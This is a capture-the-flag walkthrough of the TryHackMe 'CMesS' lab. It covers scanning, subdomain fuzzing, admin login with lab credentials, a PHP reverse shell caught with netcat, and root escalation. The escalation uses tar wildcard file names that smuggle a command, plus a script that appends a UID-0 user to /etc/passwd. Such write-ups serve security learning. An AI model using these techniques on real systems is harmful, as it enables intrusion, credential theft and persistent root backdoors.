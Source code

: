 # CMesS

**Room Link**: [https://tryhackme.com/room/cmess](https://tryhackme.com/room/cmess)



## Initial Scan

**Kali**

<pre><code><strong>nmap -A cmess.thm
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (556).png" alt=""><figcaption></figcaption></figure>



## Scan all ports

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 cmess.thm
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (557).png" alt=""><figcaption></figcaption></figure>

## TCP/80 - HTTP

**Kali**

```
gobuster dir -u http://cmess.thm -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```



Mostly junk

<figure><img src="../../.gitbook/assets/image (559).png" alt=""><figcaption></figcaption></figure>





<figure><img src="../../.gitbook/assets/image (558).png" alt=""><figcaption></figcaption></figure>



## Fuzzing Domains

Fuzzed with a long subdomain list then filtered to reduce the amount of results. Only one stands out, dev.&#x20;

**Kali**

```
wfuzz -c -f sub-fighter -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -u 'http://cmess.thm/' -H "Host: FUZZ.cmess.thm" > results.txt

grep -v '290 W' results.txt
```

<figure><img src="../../.gitbook/assets/image (560).png" alt=""><figcaption></figcaption></figure>

I added dev.cmess.thm to my host file and found this page

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We were able to login to the admin portal with these credentials

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
Username: andre@cmess.thm
Password: KPFTN_f2yxe%
```

## Initial Shell

**Exploit:** [https://www.exploit-db.com/raw/51569](https://www.exploit-db.com/raw/51569)



<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

The shell they use is bad so I upload a new one to get a reverse shell instead

**Shell Link:** [https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php)



<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
nc -lvnp 1337
```

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Get autocomplete

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
ctrl + Z
stty raw -echo;fg
```



We find andre's password in a backup file

**Victim**

```
cd /opt
ls -lah
cat .password.bak 
```

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>





## TCP/21 - SSH

**Kali**

```
ssh andre@$VICTIM
Password: UQfsdCB7aAP6
```

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Privlege Escalation

**Exploit:** [https://gtfobins.github.io/gtfobins/tar/](https://gtfobins.github.io/gtfobins/tar/)

**Victim**

```
cat /etc/crontab
```

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
cd /home/andre/backups
mkdir priv
cd priv
touch ./--checkpoint=1
touch './--checkpoint-action=exec=sh shell.sh'
vi shell.sh
```

**shell.sh**

```
#!/bin/bash

echo 'new:$1$new$p7ptkEKU1HnaHpRtzNizS1:0:0:root:/root:/bin/bash' >> /etc/passwd
```

<figure><img src="../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
su new
Password: 123
```

<figure><img src="../../.gitbook/assets/image (10) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>





